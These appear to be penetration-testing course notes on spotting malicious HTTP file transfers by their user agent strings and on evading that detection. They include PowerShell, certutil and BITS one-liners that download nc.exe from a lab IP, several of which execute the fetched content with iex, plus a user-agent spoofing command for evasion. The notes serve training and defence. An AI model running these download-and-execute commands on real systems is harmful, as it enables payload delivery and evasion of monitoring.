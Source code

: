 # Bypassing Detection

CLI detection based on blacklisting is straightforward to bypass, 
even using simple case obfuscation. 

However, although the process of whitelisting all command lines in a particular environment is 
initally time-consuming, it's very robust and allows for quick detection and alerting on any 
unusual command lines.

Most client-server protocols require the client and server to negotiate how content will be 
delivered before exchanging information. 

This is common with the HTTP protocol. There is a need for interoperability amongst different 
web servers and web browser types to ensure that users have the same experience no matter 
their browser. HTTP clients are most readily recognized by their user agent string, which the 
server uses to identify which HTTP client is connecting to it, 
for example, Firefox, Chrome, etc...

user agents are not only used to identify web browsers, but anything acting as an HTTP client 
and conneting to a web server via HTTP can have a user agent string 
(ie, cURL, a custom Python script, or common tools such as Nmap or SQLmap).

Organizations can take some steps to identify potential user agent strings by first building a 
list of known legitimate user agent strings, user agents used by default operating system 
processes, common user agents used by update services such as Windows Update, 
and antivirus updates, etc.

These can be fed into an SIEM tool used for threat hunting to filter out legitimate traffic and 
focus on anomalies that may indicate suspicious behaviour. 

Any suspicious-looking user agent strings can then be further investigated to determine whether 
they were used to perform malicious actions. https://useragentstring.com/index.php is a handy 
tool for identifying common user agent strings. A list of user agent strings is availabe also 
@https://useragentstring.com/pages/useragentstring.php

Malicious file transfers can also be detected by their user agents. 
The following user agents/headers were observed from common HTTP transfer techniques.

## Invoke-WebRequest - Client
```
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe" 
PS C:\htb> Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```

## Invoke-WebRequest - Server
```
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```
## WinHttpRequest - Client
```
PS C:\htb> $h=new-object -com WinHttp.WinHttpRequest.5.1;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.ResponseText
```
## WinHttpRequest - Server
```
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```
## Msxml2 - Client
```
PS C:\htb> $h=New-Object -ComObject Msxml2.XMLHTTP;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.responseText
```
## Msxml2 - Server
```
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```
## Certutil - Client
```
PS C:\htb> certutil -urlcache -split -f http://10.10.10.32/nc.exe 
PS C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe
```
## Certutil - Server
```
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
```
## BITS - Client
```
PS C:\htb> Import-Module bitstransfer;
PS C:\htb> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
PS C:\htb> $r=gc $env:temp\t;
PS C:\htb> rm $env:temp\t; 
PS C:\htb> iex $r
```
## BITS - Server
```
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
```

This section just scratches the surface on detecting malicious file transfers. It would be an excellent start for any organization to create a whitelist of allowed binaries or a blacklist of binaries known to be used for malicious purposes. 

Furthermore, hunting for anomalous user agent strings can be an excellent way to catch an attack in progress. We will cover threat hunting and detection techniques in-depth in later modules.

# Evasion

- Change the user agent
```bash
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | 

Select-Object Name,@{
	label="User Agent";
	Expression={
		[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)
	}} | fl
```

Invoke-WebRequest to download nc.exe using a Chrome User Agent:

```bash
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"
```

